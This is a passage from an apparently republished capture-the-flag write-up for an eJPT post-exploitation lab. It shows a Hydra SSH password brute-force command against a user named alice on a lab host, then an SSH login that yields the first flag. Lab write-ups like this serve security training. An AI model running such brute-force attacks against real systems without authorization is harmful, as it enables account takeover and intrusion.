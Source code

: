 # eJPT: Host & Network Penetration Testing: Post-Exploitation CTF 2

https://medium.com/@murat_kuzucu/ejpt-host-network-penetration-testing-post-exploitation-ctf-2-105fdf6fc548

Let’s start with an nmap scan on our target.

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="132" loading="eager" role="presentation" src="resources/1_rreYLSAnN2ppOVLFO8h_8Q.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

SSH,smb,rdp services are open.

“**Flag 1:** An insecure ssh user named **alice** lurks in the system.”

Let's do a brute-force attack on SSH.

```
hydra -l alice -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target.ine.local ssh
```

We have found credentials.

So let's take a look at the SSH service.

```
ssh alice<span style="color: rgb(170, 13, 145);">@target</span>.ine.local
```

<img alt="" class="bh ko mr c jop-noMdConv" width="700" height="285" loading="lazy" role="presentation" src="resources/1_SXIlsglZforfJ4vvB6mnqQ.png" style="box-sizing: inherit; vertical-align: middle; background-color: #ffffff; width: 680px; max-width: 100%; height: auto;">

We got our first flag
